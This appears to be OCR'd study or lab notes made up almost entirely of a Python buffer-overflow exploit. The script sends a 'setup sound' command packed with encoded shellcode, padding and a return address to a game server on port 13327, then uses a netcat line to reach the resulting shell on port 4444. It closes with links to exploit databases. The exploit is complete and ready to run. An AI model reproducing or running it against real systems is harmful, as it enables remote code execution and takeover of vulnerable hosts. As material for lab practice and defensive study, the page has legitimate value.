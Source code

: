 exp:

\#!/usr/bin/python

import socket

host = "127.0.0.1"

shellcode =
("\\xdb\\xc4\\xbe\\xc4\\x9a\\x3f\\x94\\xd9\\x74\\x24\\xf4\\x58\\x31\\xc9\\xb1"

"\\x14\\x83\\xc0\\x04\\x31\\x70\\x15\\x03\\x70\\x15\\x26\\x6f\\x0e\\x4f\\x51"

"\\x73\\x22\\x2c\\xce\\x1e\\xc7\\x3b\\x11\\x6e\\xa1\\xf6\\x51\\xd4\\x70\\x5b"

"\\x39\\xe9\\x8c\\x4a\\xe5\\x87\\x9c\\x3d\\x45\\xd1\\x7c\\xd7\\x03\\xb9\\xb3"

"\\xa8\\x42\\x78\\x48\\x1a\\x50\\xcb\\x36\\x91\\xd8\\x68\\x07\\x4f\\x15\\xee"

"\\xf4\\xc9\\xcf\\xd0\\xa2\\x24\\x8f\\x66\\x2a\\x4f\\xe7\\x57\\xe3\\xdc\\x9f"

"\\xcf\\xd4\\x40\\x36\\x7e\\xa2\\x66\\x98\\x2d\\x3d\\x89\\xa8\\xd9\\xf0\\xca")

ret="\\x97\\x45\\x13\\x08"

crash=shellcode + "\\x41" \* (4368-105) + ret +
"\\x83\\xC0\\x0C\\xFF\\xE0\\x90\\x90"

buffer = "\\x11(setup sound " + crash + "\\x90\\x00\#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

print "[\*]Sending evil buffer..."

s.connect((host, 13327))

data=s.recv(1024)

print data

s.send(buffer)

s.close()

print "[\*]Payload Sent !

nc -v 127.0.0.1 4444

Searching for Exploits

<https://www.exploit-db.com/>

<https://www.securityfocus.com/>

![](media/860d68c56f9476ea14233ad1960a0d3b.png)
